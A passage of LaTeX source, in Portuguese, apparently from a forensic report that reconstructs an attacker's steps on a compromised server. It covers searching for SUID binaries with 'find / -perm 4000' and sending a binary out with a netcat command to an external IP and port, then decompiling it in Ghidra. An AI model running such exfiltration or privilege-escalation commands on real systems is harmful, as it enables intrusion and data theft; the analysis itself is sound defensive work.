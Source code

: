 \documentclass[10pt,english]{article}
\begin{document}
\par Através do comando \textit{docker ps} tentou verificar se existiam alguns \textit{containers} \textit{Docker} em execução no entanto, este comando deu erro por falta de permissões uma vez que apenas o utilizador \textit{root} é que se consegue ligar a uma \textit{socket} \textit{Unix} utilizada para aceder ao \textit{Docker}, como foi reportado nos \textit{logs} de erro do servidor. Além disso também não foi possível a máquina encontrar as configurações do \textit{Docker} uma vez que a variável \textit{\$HOME} não estava definida.

\par Posteriormente viu todos os ficheiros em todos os sistemas de ficheiros montados com o comando \textit{find -mount} e, ainda mais importante, procurou todos os ficheiros na máquina, a partir da raiz, que tinham permissão com o valor 4000, ou seja, que eram executados com todas as permissões, tal como se o utilizador fosse o \textit{root}, mesmo que o utilizador atual não o fosse, com o comando \textit{find / -perm 4000}, que também gerou erros de falta de permissões ao tentar aceder a alguns ficheiros. Estes ficheiros com esta permissão, caso bem explorados, dão aso ao atacante conseguir o máximo de permissões na máquina e obter total controlo.

\par De entre os vários ficheiros que lhe foram retornados, o atacante concentrou-se no ficheiro \textit{/usr/sbin/sysinfo} que serve para obter informações do sistema, executando-o. Através do comando \textit{cat /usr/sbin/sysinfo|nc -w 5 192.168.1.118 1337} foi possivel o atacante enviar para si próprio o ficheiro, abrindo uma ligação \textit{TCP} com o seu endereço de IP na porta 1337 com \textit{timeout} de 5 segundos.

\clearpage

\par De modo a tentar entender o objetivo do atacante e visto que este ficheiro se encontrava em binário, assemelhando-se com um programa compilado de \textit{C}, foi utilizada a ferramenta \textit{Ghidra} para descompilar o mesmo:

\begin{figure}[h]
    \centering
    \includegraphics[width=250]{images/decompiled_sysinfo.png}
    \caption{Função \textit{main} do código original do programa \textit{sysinfo}}
\end{figure}
\end{document}
